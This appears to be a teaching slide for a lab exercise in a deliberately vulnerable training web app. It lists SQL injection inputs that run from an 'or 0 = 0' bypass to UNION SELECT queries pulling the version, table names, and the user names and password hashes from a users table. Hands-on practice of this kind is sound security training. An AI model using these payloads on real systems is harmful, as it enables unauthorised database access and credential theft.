

# Practice 1
Test SQL injection attacks
Set security level to “low”
Select SQL injection
Try the following input in the text box:

' or 0 = '0
' and 0 = 0 union select null, version() #
' and 0 = 0 union select null, user() #
' and 0 = 0 union select null, database() #
' and 0 = 0 union select null, table_name from information_schema.tables #
' and 0 = 0 union select null, table_name from information_schema.tables where table_name like 'user%' #
' and 0 = 0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #